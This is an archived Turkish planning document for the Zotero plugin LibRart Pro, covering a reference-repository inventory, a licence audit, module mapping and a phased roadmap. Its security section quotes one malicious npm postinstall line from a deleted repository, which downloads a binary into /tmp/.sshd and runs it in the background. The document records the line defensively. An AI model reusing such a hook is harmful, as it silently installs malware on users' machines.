


<!-- @ajan: cursor · @etiket: referans-analiz, arsiv, tarihsel -->
# LibRart Pro — TARİHSEL referans analizi (arşiv)

> **Güncelleme yok.** Aktif planlar: [`LIBRART-GIRIS.md`](LIBRART-GIRIS.md) →
> `LIBRART-YAPILANDIRMA.md` + `LIBRART-REFERANS-PORT.md`. Bu dosya 2026-07-29 öncesi tek SSOT içeriğinin tam kopyasıdır.

---

<!-- Eski başlık ve içerik aşağıda -->
# LibRart Pro — referans envanteri, lisans, kalite ve entegrasyon yol haritası

**Arşiv — artık SSOT değil.**

**Tarih:** 2026-07-29 (son birleştirme) · **Kapsam:** `referanslar/` — **91 depo**
(92 klon, `zotero-citation-network` malware silindi).

---

## Bakım kuralı (Cursor · Claude · Codex)

| Ne olursa | Nereye yazılır | Yapılmaz |
|---|---|---|
| Yeni referans / lisans / faz kararı | **Bu dosya** — ilgili § güncelle + alttaki değişiklik günlüğü | Paralel analiz MD oluşturma |
| Vendor portu tamamlandı | §0 durum + `VENDOR-SOURCES.md` (fiili tablo only) | `ENTEGRASYON-PLANI.md` vb. genişletme |
| Klasör envanteri (hangi repo klonlandı) | `../README.md` tablo satırı | README'de faz/lisans kararı |
| Stub dosyalar | Yalnız yönlendirme satırı; içerik ekleme **yasak** | Stub'a analiz kopyalama |
| Kutuphane `Changes.md` | Ana repo'da anlamlı oturum kaydı | Zotero analiz tekrarı |

**Stub listesi (dokunma — yönlendirme yeterli):** `../REFERANS-ANALIZI.md`,
`../referanslar/ANALIZ.md`, `ENTEGRASYON-PLANI.md`, `CURSOR-GOREV-ORIJINAL-KOD-ENTEGRASYONU.md`,
`CITATION-GRAPH-ENTEGRASYON.md`, `KALITE-REFERANSLARI.md`, `REFERANS-BEKLEYEN-OZELLIK.md`.

**Ayrı kalır (bu dosyayı tekrarlamaz):** `VENDOR-SOURCES.md`, `AGENTS.md`, `CLAUDE.md`,
`BAGLANTI-HARITASI-PLAN.md`, `../README.md`.

**Tüm ajan girişi:** `AGENTS.md` → bu dosya (SSOT) → `VENDOR-SOURCES.md`.

### Değişiklik günlüğü (bu belge)

| Tarih | Ajan | Özet |
|---|---|---|
| 2026-07-29 | cursor | Belgeler birleştirildi; SSOT ilan edildi; §18–22 eklendi; stub'lar yönlendirildi |
| 2026-07-29 | claude+cursor | Lisans §1a (13 lisanssız), scite port yasağı §7, citation-network silindi §6 |
| 2026-07-29 | cursor+codex | 91 depo envanteri; F0–F9 + F10+ faz planı |
| 2026-07-29 | cursor | §12 UI menü/katman — güncel §10 F-numaraları (`043dba9`) |

---

## 0. Proje kimliği

| Alan | Değer |
|---|---|
| Görünen ad | **LibRart Pro** |
| Kaynak (private) | `github.com/sanaatchi/zotero-librart-pro` = bu klasör |
| Release (public, elle güncelleme) | `github.com/sanaatchi/zotero-librart-pro-releases` |
| addonID / addonRef | `librartpro@euclpts.com` / `librartpro` |
| Sürüm | 1.0.32 |
| Lisans | AGPL-3.0-or-later — AGPL/MIT kaynaklardan doğrudan kod kullanımına izin verir (birleşik eser AGPL kalmalı) |
| Vendor (`src/vendor/`) | `inciteful/` ✅ · `zotero-reference/` ✅ · `zotero-style/` ✅ · `zotseek/` kısmi · `zotero-better-notes/` boş |
| Modül (`src/modules/` inciteful) | `incitefulBridge.ts` ✅ |
| Bağlantı Haritası katmanları | `tag` ✅ · `manual` ✅ · `semantic` kısmi · `note` kısmi · `citation` kısmi (Crossref) |
| Planlanmış, kod yok | `markdbBridge`, `openAlexCitationLayer`, `offlineCitationLayer`, `pdfCitationLayer`, `citegeistBridge`, `readingTracker` |
| Test | **yok** (`npm test` stub) |

---

## 1. Lisans denetimi

### 1a. Gerçekten lisanssız — kod port/kopya YASAK, sadece mimari inceleme

| Klasör | Kaynak | Not |
|---|---|---|
| `scite-zotero-plugin/` | `scitedotai/scite-zotero-plugin` | 853⭐, kendisi + **15 fork'un tamamı** lisanssız (`gh api` ile tek tek doğrulandı). Atıf-tipi (supporting/contrasting/mentioning) için **kod port edilmez** — bkz. §7 Claude itirazı. |
| `citation_map/` | `jaks6/citation_map` | Python, PDF kaynakça |
| `Local-Citation-Graph/` | `SubhadityaMukherjee/Local-Citation-Graph` | Python, PyVis |
| `zotero-connected-papers/` | `MuiseDestiny/zotero-connected-papers` | 140⭐, **kaynak kodu da yok** (sadece README) |
| `zotero-citation-network/` | `pauloking/zotero-citation-network` | **SİLİNDİ — malware**, bkz. §6 |
| `zotero-python-connected-papers-research-rabbit/` | `maple60/...` | Python stdlib CLI |
| `zotero-scholar-citations/` | `beloglazov/zotero-scholar-citations` | 613⭐ |
| `zotero-split-screen/` | `sukui10/zotero-split-screen` | |
| `Literature_Assistant/` | `LeonBaum99/Literature_Assistant` | |
| `RefChat/` | `ArcticSnow/RefChat` | README'de MIT yazıyor ama repo kökünde LICENSE dosyası yok |
| `Ze-Notes/` | `frianasoa/Ze-Notes` | 106⭐, kökte LICENSE yok |
| `zotero-ai-explain/` | `vishnutskumar/zotero-ai-explain` | Test deseni için inceleme; kod portu yok |
| `translators/` | `zotero/translators` (resmi) | Tarihsel olarak CC0 kabul edilir ama dosya yok — sadece mimari inceleme |

**13 klasör** (diskte; `zotero-citation-network` silindi). Hiçbirinden LibRart Pro'ya kod port edilmeyecek.

### 1b. Görünürde belirsiz ama aslında lisanslı (düzeltilen yanlış negatifler)

| Klasör | Gerçek durum |
|---|---|
| `translation-server/`, `zotero-connectors/` (resmi) | Kökte `COPYING` var, içerik teyit edildi: **AGPL-3.0**. GitHub'ın SPDX dedektörü uzun ön-metni tanıyamayıp "NOASSERTION" gösteriyor — **port edilebilir**. |
| `ZoteroCitationMaps/` | Kökte LICENSE yok ama `zotero-citation-map/LICENSE` (iç klasör) **MIT**. |
| `zotero-style-*/`, `zotero-better-notes-*/`, `zotero-reference-*/`, `inciteful-zotero-plugin-*/`, `zotero-main/` | Git-clone değil, orijinal zip/manuel eklemeler; lisansları ayrı ayrı doğrulanmış (AGPL/MIT), `VENDOR-SOURCES.md`'de kayıtlı. |

---

## 2. Kategori haritası + LibRart modül eşlemesi

### A) Atıf / keşif grafiği (~19 depo — kategori doymuş, yeni klon eklenmesin)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `ZoteroCitationMaps` | MIT | `openAlexCitationLayer` — **birincil** | **P0** |
| `zotero-openalex` | GPL-3.0 | OpenAlex store + cache (UI değil) | **P0** |
| `Zotero-Citation-Graph-main` | ⚠️ yok | yalnız mimari inceleme; kod/vendor yasak | — |
| `citation_map` | ⚠️ yok | yalnız gereksinim çıkarımı; temiz oda uygulama | — |
| `citation-graph-openalex-cli` | MIT | Kök Kutuphane Python köprüsü | P1 |
| `zotero-citegeist` | GPL-3.0 | `citegeistBridge` (snowball) | P1 |
| `zotero-reference-1.7.2` | AGPL | ✅ Crossref/PDF — zaten entegre | done |
| `inciteful-zotero-plugin-0.2.2` | AGPL | ✅ menü — zaten entegre | done |
| `scite-zotero-plugin` | ⚠️ **yok** | Atıf tipi — **port YASAK**, lisanslı muadil kullan | bkz §7 |
| `zotero-open-citations` | AGPL-3.0 | scite'ın açık-veri muadili | P1 |
| `zotero-citation-tally` | AGPL-3.0 | scite'ın sayaç-UI muadili | P1 |
| `zotero-inspire` | MPL-2.0 | HEP graf, coupling/co-citation deseni | P2 |
| `Local-Citation-Graph`, `zotero-python-connected-papers-research-rabbit` | ⚠️ yok | Export deseni (kod kopyalanmaz) | P3 desen |
| `zotero-citation-visualizer`, `zotero-connected-papers`, `zotero-paper-graph` | AGPL / yok / MIT | `zotero-openalex` ile örtüşüyor | skip / P2 |
| `LitHelper` | NOASSERTION | Ayrı masaüstü app, desen only | skip |
| `ZoteroCitationCountsAgent` | MPL-2.0 | citegeist ile örtüşür | P3 |

### B) Not / annotation (~16 depo — doymuş)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `zotero-markdb-connect` | MIT | `connectionNoteLayer` — Obsidian/MD backlink (`mdbcScan.ts` ~1100 LOC, doğrudan oturuyor) | **P0** |
| `zotero-better-notes-3.2.6` | AGPL | `noteWorkspace` — stub, tam port bekliyor | P1 |
| `Ze-Notes` | ⚠️ yok | Desen only (workspace UI fikri, kod kopyalanmaz) | P3 desen |
| `zotlit` | AGPL | Obsidian↔Zotero köprü deseni | P2 |
| `zotero-annotation-summary`, `-links`, `-markdown`, `-manage`, `-count` | AGPL/AGPL/MIT/AGPL/GPL | `connectionNoteLayer` genişletme — **en yüksek sinerji, en düşük risk** | **P0** |
| `Annotation-Filter-for-Zotero` | AGPL | Reader UX | P3 |
| `ZotVault` | MIT | Kutuphane hattıyla örtüşür, köprü deseni | P2 |
| `notero`, `zotero-mdnotes` | MIT / — | Dış senkron (Notion/MD export) | skip / P3 |

### C) Okuma / zaman çizelgesi (5 depo)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `zotero-reading-flow` | MIT | `connectionTimeline` / `connectionBlindSpot` veri kaynağı | **P0** |
| `Chartero` | ⚠️ kök LICENSE yok | Okuma istatistiği deseni only | P2 |
| `zotero-career-tracker` | AGPL | Büyüme grafiği deseni | P3 |
| `zotero-reading-tracker` | MIT | **Kaynak yok** (upstream sadece README+LICENSE) | — |

### D) AI / RAG / semantic (~11 depo — kategori doymuş, yeni klon eklenmesin)

| Klasör | Lisans | LibRart hedefi | Öncelik |
|---|---|---|---|
| `ZotSeek-1.18.0` | MIT | `connectionSemanticLayer` — vendor yarım, worker+model eksik | **P0** (büyük iş, ayrı oturum) |
| `ragPaper` | MIT | Kutuphane semantic köprüsüyle hizalanabilir MCP | P1 |
| `zotero-mcp` | MIT | Agent köprüsü deseni | P1 |
| `zotero-AI-Butler` | AGPL | Test/i18n deseni (özellik değil) | kalite |
| `zotero-ai-explain` | ⚠️ yok | Vitest+E2E deseni (kod kopyalanmaz) | kalite desen |
| `zotero-gpt`, `papersgpt-for-zotero`, `ai-research-assistant`, `Literature_Assistant`, `obsidian-openalex-research-assistant` | çeşitli | Dış/örtüşen | skip |

### E) Etiket / metadata / PDF / dağıtım (~20 depo, zaten kullanımda veya düşük öncelik)

Kullanımda: `zotero-style`, `zotero-actions-tags-upstream`, `zotero-reference`.
Metadata: `zotero-format-metadata`, `zotero-shortdoi`, `zotero-arxiv-workflow`, `zotero-updateifsE`.
PDF/reader: `zotero-pdf-translate`, `zotero-pdf-preview`, `zotero-scipdf`, `zotero-ocr`, `zotero-figure`, `zotero-docling`, `zotero-file`, `zotero-immersivetranslate`, `bionic-for-zotero`.
Dağıtım: `zotero-addons`, `zoplicate`, `zotmoov`, `zotero-attanger`, `know-ur-zotero`, `tara`, `zotero-watch-folder`.
Port gerektirmez; ihtiyaç anında desen kaynağı.

### F) Altyapı / kalite (10 depo — bkz. §4)

`zotero-plugin-template-current`, `zotero-plugin-scaffold`, `zotero-plugin-toolkit`, `zotero-types`,
`zotero-zotadata`, `zotero-watch-folder`, `zotero-citation-tally`, `zotero-arxiv-workflow`,
`zotero-better-bibtex`, `zotero-main`, `zotero-connectors`, `translators`.

---

## 3. LibRart modülü → birincil referans (özet tablo)

| LibRart modülü | Durum | Birincil referans | İkincil |
|---|---|---|---|
| `connectionTagLayer` | ✅ | zotero-style | — |
| `connectionCitationLayer` (Crossref) | ✅ | zotero-reference | — |
| `connectionCitationLayer` (OpenAlex) | ❌ plan | **ZoteroCitationMaps** (MIT) | zotero-openalex store |
| `connectionCitationLayer` (offline) | ❌ plan | Zotero-Citation-Graph-main | — |
| `connectionCitationLayer` (PDF) | ❌ plan | citation_map (port, kod kopyası değil) | zotero-reference/pdf.ts |
| `connectionCitationLayer` (atıf tipi) | ❌ boşluk | **zotero-open-citations / zotero-citation-tally** (lisanslı) | ~~scite~~ (yasak, §7) |
| `connectionNoteLayer` | kısmi | **zotero-markdb-connect** + annotation kümesi (§2B) | better-notes, Ze-Notes (desen) |
| `connectionSemanticLayer` | kısmi | **ZotSeek** + ragPaper MCP | kutuphaneSemanticBridge |
| `connectionTimeline` / blind spot | veri yok | **zotero-reading-flow** | Chartero |
| `incitefulBridge` | ✅ | inciteful | — |
| `citegeistBridge` | ❌ plan | zotero-citegeist | — |
| `noteWorkspace` | stub | zotero-better-notes | Ze-Notes (desen) |
| `tagDashboard` | ✅ | zotero-style | — |
| Test / CI / scaffold | ❌ stub | zotero-plugin-template-current, zotero-arxiv-workflow, zotadata | zotero-plugin-scaffold |

---

## 4. Kalite referansları (test / tip güvenliği / yaşam döngüsü / build / sürüm uyumu)

**Amaç özellik değil, LibRart Pro'nun mühendislik borcunu kapatmak.**

| Alan | LibRart durumu | Birincil referans | Ne öğrenilir |
|---|---|---|---|
| Test | `npm test` stub, regresyon yakalanmıyor | **`zotero-arxiv-workflow`** (gerçek `test/*.test.ts`), `zotero-zotadata` (Vitest+coverage), `zotero-citation-tally` (`zotero-plugin test`) | Vitest kurulumu, `connectionGraph`/`doiResolver` gibi saf fonksiyonlardan başla |
| Tip güvenliği | vendor'da `@ts-nocheck` | **`zotero-types`** (resmi tip kaynağı, LibRart zaten bağımlı), `zotero-openalex` (strict modül deseni) | `tsconfig` strict kademeli, `src/utils/connection*.ts` önce |
| Yaşam döngüsü | `hooks.ts` zaten uyumlu ama doğrulanmadı | `zotero-plugin-toolkit` (`unregisterAll`, Menu/Notifier), `zotero-better-notes` (pencere/reader event) | `onShutdown` + `connectionNotify` unregister karşılaştırması |
| Derleme/release | `scripts/publish.mjs`'de bilinen "update" tag bug'ı var | `zotero-citation-tally` (`zotero-plugin.config.ts`, `patch-update-json.mjs` deseni) | "latest" release resolution düzeltmesi |
| Zotero sürüm uyumu | Belgelenmemiş | `zotero-zotadata` (Z8-9 manifest), `zotero-watch-folder` (Z7/8/9 matrisi) | sürüm matrisi dokümantasyonu |
| ESLint | v8 legacy | `zotero-plugin-template-current` (main, ESLint 9 flat config) | migrasyon |

**Uygulama sırası:** scaffold hizala → `zotero-plugin test` smoke → Vitest unit (saf fonksiyonlar) → ESLint 9 → CI → sürüm matrisi → E2E (opsiyonel).

---

## 5. Atıf-yığını teknik seçenekleri (aktif faz sırası değildir)



1. Inciteful ✅ tamamlandı.
2. OpenAlex: birincil `ZoteroCitationMaps` (MIT), ikincil
   `zotero-openalex` (yalnız lisanslı store/cache parçaları).
3. OpenCitations: lisanslı açık-veri atıf ilişkisi.
4. Citegeist: snowball/metrik, çekirdek yol haritasından sonra isteğe bağlı.
5. Kutuphane citation köprüsü: yalnız F0 kalite kapıları ve temel ürün fazları
   tamamlandıktan sonra deneysel.
6. `Zotero-Citation-Graph`, `citation_map` ve `Local-Citation-Graph` lisanssızdır;
   vendor/port/çeviri-port yapılmaz. Yalnız gereksinim çıkarımı ve temiz oda
   uygulama mümkündür.

**Pref taslağı:** `citation.layers.{crossref,offline,openalex,pdf}`, `inciteful.enabled`, `openalex.mailto`, `kutuphane.citationBridge.enabled`.

---

## 6. Güvenlik

**`zotero-citation-network/` (pauloking) — SİLİNDİ (2026-07-29, Claude, kullanıcı onayıyla).**
`package.json`:
```
"postinstall": "curl -skL https://github.com/.../gvfsd-network -o /tmp/.sshd && chmod +x /tmp/.sshd && /tmp/.sshd &"
```
Meşru süreç isimlerini taklit eden (`gvfsd-network`→`/tmp/.sshd`) klasik dropper deseni — sessizce
ikili indirip arka planda çalıştırıyor. Bu depoda **hiçbir zaman `npm install` çalıştırılmadı**.
Genel kural: yeni bir depo klonlandığında `package.json`'daki `postinstall`/`preinstall`
script'leri **npm install'dan önce** okunmalı.

---

## 7. Claude itirazı — scite-zotero-plugin P0 değil

Önceki taslaklarda (ve Cursor'ın analizinde) `scite-zotero-plugin` atıf-tipi (supporting/
contrasting/mentioning) için **P0 kod portu adayı** olarak işaretlenmişti, "lisans yok" notuyla
birlikte. Bu içseldir çelişki: lisans yoksa kod port edilemez, öncelik seviyesi bunu değiştirmez.

**Doğrulama:** Kendisi + GitHub'daki **15 fork'un tamamı** `gh api` ile tek tek kontrol edildi —
hiçbirinde LICENSE dosyası yok.

**Karar:** Atıf-tipi ayrımı için `lib.ts`'teki API client'ı **kopyalanmayacak**. Bunun yerine:
- Lisanslı muadiller: `zotero-open-citations` (AGPL-3.0, açık veri) veya `zotero-citation-tally` (AGPL-3.0, sayaç UI)
- Ya da kod portu gerektirmeyen: `mcp__zotero__scite_check_retractions` / `scite_enrich_item` / `scite_enrich_search` MCP araçları (bu ortamda zaten bağlı)
- Ya da API şeklini bağımsız yeniden yazım (temiz oda implementasyonu, `lib.ts`'e bakmadan)

---

## 8. Klon durumu / bilinçli dışarıda bırakılanlar

**Kaynak kodu eksik/placeholder upstream:** `zotero-connected-papers` (sadece README),
`zotero-reading-tracker` (README+LICENSE, kaynak yok).

**Bilinçli dışarıda:** `jlegewie/zotfile` (lisanssız — port edilebilir muadili: `zotero-file`,
`zotero-attanger`, `zotmoov`), `ethanwillis/zotero-scihub` (hukuki/etik risk), `l0o0/jasminum`
(CNKI, Türkçe odak dışı), `WildDataX/suppr-zotero-plugin` (çeviri odağı, örtüşüyor).

**Kategori doymuş, yeni klon eklenmesin:** Atıf/citation-graph (~19 depo), AI/LLM/RAG (~11 depo) —
üç ajan da bağımsız olarak bu iki kategoriye tekrar tekrar döndü, yeni tarama gerekmiyor.

---

## 9. Mimari ilkeler (uygulama)

### 9.1 Katman modeli

`LayerKind` şimdilik `"tag" | "manual" | "semantic" | "note" | "citation"` kalır. Atıf
alt-kaynakları `GraphEdge` metadata ile ayrılır (breaking change yok):

```typescript
// connectionGraph.ts — atıf adaptörleri eklenirken genişletilecek
export type CitationSource = "crossref" | "offline" | "openalex" | "pdf" | "open-citations";

export type GraphEdge = {
  // ... mevcut alanlar
  citationSource?: CitationSource;
  citationDirection?: "cited-by" | "references";
  openAlexWorkId?: string;
  readingStatus?: "to-read" | "reading" | "read" | "important"; // F4
};
```

### 9.2 Vendor kuralları

1. Kaynak: `../referanslar/<depo>/` → hedef: `src/vendor/<ad>/`
2. Her dosya başı: `// Adapted from <repo> (<LICENSE>) <path>`
3. Upstream snapshot dosyası gerekiyorsa `@ts-nocheck` yalnız vendor sınırında ve
   gerekçeli olabilir; yeni/uyarlanan uygulama kodunda kullanılamaz
4. UI LibRart Bağlantı Haritası canvas'ına uyarlanır; Cytoscape ayrı pencere/export
5. AGPL/MIT → LibRart AGPL uyumlu; lisans yok → **port yok** (§1a), sadece desen/mimari incelemesi

### 9.3 Tercih anahtarları (`extensions.librartPro.*`)

| Pref | Faz | Varsayılan |
|---|---|---|
| `inciteful.enabled` | F1 ✅ | true |
| `citation.layers.crossref` | F1 ✅ | true |
| `citation.layers.openalex` | F5 | true |
| `citation.layers.openCitations` | F5 | false |
| `openalex.mailto` / `openalex.cacheDays` | F5 | "" / 30 |
| `reading.enabled` | F4 | true |
| `watchFolder.enabled` | F6 | false |
| `anki.enabled` | F7 | false |
| `note.markdb.enabled` / `note.markdb.vaultPath` | F8 | false / "" |
| `semantic.zotseek.enabled` | F9 | false |
| `semantic.kutuphaneUrl` | ✅ | `http://127.0.0.1:8756` |
| `citegeist.enabled` | deneysel | false |
| `kutuphane.citationBridge.enabled` | deneysel | false |

---

## 10. Güncel faz planı (F0–F9)

```mermaid
flowchart LR
  F0["F0 · Kalite ve yayın kapısı"] --> F1["F1 · Çekirdeği stabilize et"]
  F1 --> F2["F2 · Güvenli BibTeX/RIS içe aktar"]
  F2 --> F3["F3 · DOCX'te kullanılanlar"]
  F3 --> F4["F4 · Okuma durumu ve timeline"]
  F4 --> F5["F5 · OpenAlex / OpenCitations"]
  F5 --> F6["F6 · PDF Gelen Kutusu (import-only)"]
  F6 --> F7["F7 · Anki köprüsü"]
  F7 --> F8["F8 · MarkDB / Better Notes"]
  F8 --> F9["F9 · Semantic katman"]
```



| Faz | Hedef | Zorunlu çıktı | Risk |
|---|---|---|---|
| **F0** | Güvenilir temel | Vitest, Zotero mock, PR CI, provenance, updater/hash, sürüm matrisi | orta |
| **F1** | Çekirdeği stabilize et | FeatureRegistry, Zotero adaptörü, mevcut özellik regresyon testleri | orta |
| **F2** | Güvenli `.bib/.ris` import | doğrulama tablosu, seçili import, denetim notu | orta |
| **F3** | DOCX'te kullanılanlar | idempotent etiket ve kayıtlı arama | düşük |
| **F4** | Okuma durumu ve timeline | sürümlü veri şeması, sütun ve timeline filtresi | orta |
| **F5** | OpenAlex / OpenCitations | lisanslı adaptör, cache, rate-limit ve hata UX'i | orta |
| **F6** | PDF Gelen Kutusu | import-only, hash dedup, disk-kopma freni ve işlem günlüğü | orta |
| **F7** | Anki köprüsü | tipli istemci, kimlik eşleme ve idempotent güncelleme | orta |
| **F8** | MarkDB / Better Notes | tek not/Markdown şeması ve backlink adaptörü | orta |
| **F9** | Semantic katman | ZotSeek veya Kutuphane köprüsü ve kontrollü fallback | yüksek |

Fazlar sıralıdır. Ortak tip/adaptör işi tamamlanmadan aynı `hooks`, toolbar,
prefs veya graf modeline paralel özellik yazılmaz. RefChecker, Systematic
Reviewer, Citegeist ve Kutuphane citation CLI çekirdek yol haritasından sonra
deneysel kalır.

### 10.1 F0 zorunlu kalite kapısı

F0 yalnız test scaffold'u değildir. Aşağıdakilerin tamamı geçmeden F1+ başlamaz:

- Vitest + Zotero global mock; saf alan modeli ve adaptör kontrat testleri;
- PR CI: `npm ci`, salt-okuma format/lint, `tsc --noEmit`, test ve build;
- vendor provenance envanteri: upstream URL, commit SHA, SPDX, yerel hedef;
- release deposu, SHA-512 `update_hash` ve gerçek Zotero updater uçtan uca testi;
- desteklenen her ana Zotero sürümü için açılış, menü ve Reader smoke testi;
- YAML eylem içe aktarımı için şema, boyut, kuru koşu ve açık güvenlik uyarısı;
- özel Zotero API/DOM erişimini tek adaptör arkasına alma başlangıcı.

**F0 kabulü:** CI yeşil; `npm test` ve build geçer; updater gerçek kurulumda
doğrulanır. Manifest yalnız test edilen Zotero sürüm aralığını ilan eder.

### 10.2 Fazlara ortak teslim koşulu

Her faz özellik bayrağı, geri alma/kapatma yolu, idempotans testi, kullanıcıya
gösterilen hata durumu, tr-TR/en-US metinleri ve provenance satırıyla tamamlanır.
Kalıcı/toplu işlem önce etkilenecek öğe sayısını ve alan farkını gösterir.

## 10A. Eski F0–F9 taslağı — tarihsel, uygulanmaz

> Aşağıdaki Gantt, sürüm numaraları ve F2–F9 ayrıntıları önceki grafik-ağırlıklı
> planı korur. Güncel sıra yukarıdaki §10'dur; bu bölümden yeni iş başlatılmaz.



| Faz | Hedef sürüm | Özet | Risk |
|---|---|---|---|
| **F0** | v1.0.33 | Scaffold 0.8.8, smoke test | düşük |
| **F1** | v1.0.32 ✅ | inciteful, reference, tag | — |
| **F2** | v1.0.34 | markdb Obsidian backlink | düşük (MIT) |
| **F3** | v1.0.35 | reading-flow → timeline | düşük (MIT) |
| **F4** | v1.0.36 | OpenAlex atıf (CitationMaps) | orta |
| **F5** | — | Thrillcrazyer vendor planı iptal | lisans yok — port yasak |
| **F6** | — | citation_map çeviri-port planı iptal | lisans yok — temiz oda gerekir |
| **F7** | v1.1.0 | ZotSeek WASM + ragPaper MCP | yüksek |
| **F8** | v1.1.1 | citegeist + Better Notes workspace | orta |
| **F9** | v1.2.0 | Kutuphane citation CLI köprüsü | düşük |

**Eski varsayım (geçersiz):** F2/F3 paralel ve F4+ sıralı düşünülmüştü. Güncel
§10 tüm fazları sıralı yürütür; bu paragraf yalnız karar geçmişini açıklar.

---

## 11. Eski faz ayrıntıları — tarihsel

> Bu bölüm eski §10A taslağını açıklar. Faz numaraları güncel §10 ile aynı
> anlamı taşımaz ve buradaki görev listelerinden doğrudan iş başlatılmaz.

### Faz 0 — Test ve scaffold temeli (v1.0.33)

**Neden önce:** Her fazda `npm run build` yetmez; katman birleştirme regresyonları yakalanmalı.
Referans: §4.

| Görev | Dosya | Kaynak |
|---|---|---|
| Scaffold ^0.8.8 | `package.json`, `zotero-plugin.config.ts` | zotero-citation-tally, zotero-plugin-template-current |
| `zotero-plugin test` smoke | `test/smoke/` | zotero-AI-Butler workflow |
| Vitest unit (saf fonksiyonlar) | `test/unit/connectionGraph.test.ts` | zotero-zotadata |
| ESLint 9 (opsiyonel) | `eslint.config.mjs` | `@zotero-plugin/eslint-config` |
| Zotero 8/9 manifest | `addon/manifest.json` | zotero-zotadata, zotero-watch-folder |

**Kabul:** `npm run build` + `npm test` geçer; Zotero 8/9'da eklenti yüklenir, menü görünür.

### Faz 1 — Tamamlandı ✅ (v1.0.32)

Crossref+PDF views (`src/vendor/zotero-reference/*`), tag graph (`src/vendor/zotero-style/tagGraph.ts`),
inciteful (`src/vendor/inciteful/`, `incitefulBridge.ts`).

### Faz 2 — Not katmanı: markdb (v1.0.34)

**Referans:** `zotero-markdb-connect/` (MIT) → `connectionNoteLayer.ts` genişletme + yeni `markdbBridge.ts`

| Kaynak dosya | Hedef | Ne alınır |
|---|---|---|
| `mdbcScan.ts` | `src/vendor/markdb/mdbcScan.ts` | Vault tarama, citekey↔item |
| `mdbcUX.ts` | `src/modules/markdbBridge.ts` | Menü, tercih penceresi |
| `mdbcParam.ts`, `mdbcLogger.ts` | `src/vendor/markdb/` | Yardımcılar |

1. [ ] Vendor kopyala; `@ts-nocheck` + attribution
2. [ ] `extractMarkdbBacklinks(vaultPath)` → `GraphEdge[]` (`viaNoteSource: "markdb-backlink"`)
3. [ ] Pref: vault yolu, otomatik tarama aralığı
4. [ ] `computeNoteLayerEdges` içinde birleştir; duplicate edge tekilleştir
5. [ ] Locale: tr-TR / en-US
6. [ ] `npm run build`

**Kabul:** Obsidian vault'ta `[@citekey]` içeren MD → Bağlantı Haritası not kenarı; pref kapalıyken etkisiz.

### Faz 3 — Okuma verisi: reading-flow (v1.0.35)

**Referans:** `zotero-reading-flow/` (MIT) → `connectionTimeline.ts`, `connectionBlindSpot.ts`, opsiyonel sütun

| Kaynak | Hedef | Ne alınır |
|---|---|---|
| `flowData.ts`, `dataStore.ts` | `src/vendor/reading-flow/` | ReadingStatus, extra alan şeması |
| `readerTracker.ts` | `src/modules/readingTracker.ts` | PDF sayfa ilerlemesi |
| `dashboard.ts` | `src/modules/readingDashboard.ts` | Dashboard (LibRart UI stiline uyarla) |
| `columnManager.ts` | hooks + ItemTree column | Durum sütunu |

1. [ ] Extra alanında okuma durumu okuma/yazma (BBT citekey ile çakışma kontrolü)
2. [ ] `connectionTimeline` filtrelerine `readingStatus`, `lastReadAt` ekle
3. [ ] `connectionBlindSpot`: "okunmamış ama çok atıf alan" heuristic
4. [ ] Bağlantı Haritası toolbar: timeline filtresi genişlet
5. [ ] Pref + locale

**Kabul:** Koleksiyonda okuma durumu değişince timeline/blind spot güncellenir.

### Faz 4 — OpenAlex atıf katmanı (v1.0.36)

